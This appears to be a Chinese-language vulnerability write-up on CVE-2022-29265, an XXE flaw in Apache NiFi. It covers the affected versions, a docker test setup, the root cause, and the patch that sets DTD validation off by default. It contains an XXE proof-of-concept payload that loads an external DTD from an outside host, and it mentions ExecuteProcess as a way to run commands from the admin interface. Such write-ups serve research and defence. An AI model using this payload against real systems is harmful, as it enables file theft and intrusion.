








- [CVE-2022-29265 Apache NIFI XXE](#cve-2022-29265-apache-nifi-xxe)
  - [影响版本](#影响版本)
  - [环境搭建](#环境搭建)
  - [原理分析](#原理分析)
    - [EvaluateXPath&EvaluateXQuery&ValidateXml](#evaluatexpathevaluatexqueryvalidatexml)
  - [漏洞复现](#漏洞复现)
  - [后台RCE(番外)](#后台rce番外)
  - [补丁](#补丁)
# CVE-2022-29265 Apache NIFI XXE
## 影响版本
Apache NiFi-Apache =0.0.1 &&<=1.16.0
## 环境搭建
docker run --name nifi -p 8443:8443 -p 8000:8000 -d -e NIFI_JVM_DEBUGGER=1 apache/nifi:1.16.0
## 原理分析
### EvaluateXPath&EvaluateXQuery&ValidateXml
NIFI支持处理XML数据,相关的几个处理器为EvaluateXPath,EvaluateXQuery,ValidateXml等,其实在创建解析器时设置了相关的安全属性的.  

按理来说不存在DTD,但在创建处理器时,却有一个属性可以开启支持验证DTD(默认True),以EvaluateXQuery处理器为例,导致默认开启的安全属性被覆盖造成DTD.
  

## 漏洞复现
poc:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://192.168.62.1:8091/test.dtd"> %dtd;]
```


## 后台RCE(番外)
NIFI还自带了一个处理器可以直接执行系统命令为ExecuteProcess.
  

## 补丁

其实主要是将默认值改为了false,避免了默认情况下被恶意数据利用.